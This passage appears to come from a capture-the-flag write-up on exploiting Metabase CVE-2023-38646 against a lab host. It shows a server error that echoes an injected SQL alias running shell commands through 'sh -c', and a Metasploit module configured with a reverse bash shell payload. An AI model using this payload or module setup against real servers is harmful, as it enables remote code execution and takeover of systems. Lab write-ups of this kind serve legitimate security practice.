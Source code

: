```http
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://accounts.google.com    'sha256-K2AkR/jTLsGV8PyzWha7/ey1iaD9c5jWRYwa++ZlMZc=' 'sha256-ib2/2v5zC6gGM6Ety7iYgBUvpy/caRX9xV/pzzV7hf0=' 'sha256-isH538cVBUY8IMlGYGbWtBwr+cGqkc4mN6nLcA7lUjE='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline' https://accounts.google.com; font-src *; img-src * 'self' data:; connect-src 'self' https://accounts.google.com metabase.us10.list-manage.com   ; manifest-src 'self';  frame-ancestors 'none';
Expires: Tue, 03 Jul 2001 06:00:00 GMT

{"message":"IO Exception: \"java.io.IOException: Cannot run program \"\"javac\"\": error=2, No such file or directory\"; SQL statement:\nCREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd});}$$ [90028-212]"}
```


Also found this interesting article about it:

https://blog.calif.io/p/reproducing-cve-2023-38646-metabase?subscribe_prompt=free

### Second exploit attempt

I tried running this metasploit module located on `exploits/linux/http/metabase_setup_token_rce.rb`, but wasn’t able, for some reason. Probably because I lack practice with the framework itself.




```
msf6 exploit(metabase_setup_token_rce) > show options

Module options (exploit/metabase_setup_token_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     data.analytical.htb  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                   yes       The target port (TCP)
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                    yes       The URI of the Metabase Application
   VHOST                           no        HTTP server virtual host

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  8000             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```
